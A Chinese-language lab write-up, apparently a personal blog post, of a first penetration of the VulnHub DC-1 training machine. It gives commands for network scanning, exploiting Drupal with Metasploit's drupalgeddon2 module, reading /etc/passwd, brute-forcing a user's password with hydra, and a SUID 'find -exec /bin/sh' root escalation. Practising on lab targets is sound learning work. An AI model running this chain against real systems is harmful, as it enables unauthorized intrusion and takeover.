










## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP

出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了

看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

设置required为yes的参数，GO！！！

### 成功获取到shell

+ `cat /etc/passwd`查看电脑上有哪些用户

看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .
看到密码为orange

官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

#### 我的第一次靶机渗透成功

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
